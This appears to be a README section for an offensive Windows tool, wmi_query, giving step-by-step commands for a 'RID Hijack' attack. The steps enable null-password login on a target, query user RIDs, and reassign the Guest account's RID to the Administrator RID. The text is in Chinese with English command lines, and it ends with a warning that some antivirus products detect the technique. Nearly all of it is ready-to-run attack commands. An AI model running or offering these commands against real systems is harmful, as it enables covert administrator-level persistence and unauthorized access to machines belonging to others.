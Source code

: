 ## RID Hijack ##
使用  
1.启用空密码登录
```text
python wmi_query -i <target> -u <username> -p <password> --nulllogin 0 #Enable null password login
``` 
2.用户RID查询  
```text
python wmi_query -i <target> -u <username> -p <password> --user-rid-query
```
3.RID劫持   
```text
python wmi_query -i <target> -u <username> -p <password> --ridhijack 1f5(src_id),1f4(target_rid)
```
![](img/rid_hijack.gif)

PS:  
RID劫持和启用用户/禁用用户会被某些杀毒拦截，使用时自行注意
![](img/360_av.png)
